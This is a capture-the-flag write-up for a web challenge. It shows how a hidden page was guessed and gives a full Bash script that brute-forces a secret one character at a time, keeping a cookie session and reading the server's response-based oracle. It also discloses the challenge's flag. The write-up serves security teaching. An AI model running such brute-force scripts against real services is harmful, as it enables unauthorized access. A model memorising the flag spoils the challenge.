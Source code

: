 # Step by step

Visiting the main page showed only a message, with no visible links. The hint encouraged guessing the name of a "free" version of a normally paid HTML file.
```txt
"Usually, you have to pay in order to see this HTML file. However, today is your lucky day.
We are giving you a free version for a limited amount of time.
Its filename should be quite easy to guess."
```

# 1. Finding the Hidden Page

By guessing common names like free.html, index.html, view.html, I eventually discovered the correct one: **http://141.85.224.118:8083/trial.html**
This page contained a form with the following inputs:

```html
<form method="post" action="churn.php">
    <input type="text" name="txt_input">
    <input type="hidden" name="flag" value="TODO">
</form>
```

The message on the page was key: "*You'll get four answers: not right, keep going, too much and the flag.*"

I sent different POST requests to **churn.php** and observed the responses.

Example:

```bash
curl -X POST http://141.85.224.118:8083/churn.php \
     -d "txt_input=" -d "flag=S"
```

Responses like:
- "not right" → wrong guess
- "keep going" → partial match!
- "too much" → invalid prefix (too long or invalid character)

It was clear this was a character-by-character brute-force challenge, requiring session management via cookies. After observing that responses were tied to the session, I realized cookies must be preserved across requests. So I wrote a Bash script that: Maintains a cookie jar and starts with a clean session, it loops through characters, appending one at a time and interprets feedback to build the correct flag step by step. Stops once the flag is fully correct build.

## Exploit Script

```bash
#!/bin/bash

URL="http://141.85.224.118:8083/churn.php"
COOKIEJAR="cookies.txt"
charset="_-[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-"  # edit if needed
flag=""
last_len=0
max_loops=5
loop_count=0
delay=0  # 300ms delay between requests

# Start new clean session
rm -f "$COOKIEJAR"
curl -s http://141.85.224.118:8084/ -c "$COOKIEJAR" > /dev/null

while true; do
    found_new=false

    for c in $(echo -n "$charset" | fold -w1); do
        try="${flag}${c}"
        echo -ne "[*] Trying: $try ... "

        resp=$(curl -s -X POST "$URL" \
            -d "txt_input=" \
            -d "flag=$try" \
            -b "$COOKIEJAR" -c "$COOKIEJAR")

        sleep "$delay"  # <<< ADDING DELAY

        if echo "$resp" | grep -q "keep going"; then
            flag="$try"
            echo -e "\r[+] Valid prefix: $flag"
            found_new=true
            break
        elif echo "$resp" | grep -oE "SSS\{[^}]+\}"; then
            echo -e "\n[✓] FLAG FOUND: $(echo "$resp" | grep -oE "SSS\{[^}]+\}")"
            exit 0
        else
            echo "nope"
        fi
    done

    if [ "$found_new" = false ]; then
        echo "[!] No valid extension for: $flag"
        loop_count=$((loop_count + 1))
    else
        loop_count=0
    fi

    if [ "$loop_count" -ge "$max_loops" ]; then
        echo "[X] Loop detected. Stopping to prevent infinite run."
        echo "[?] Current flag guess: $flag"
        exit 1
    fi
done
```
After a few minutes of execution, the script successfully printed the flag: **SSS{why_is_all_the_rum_gone}**
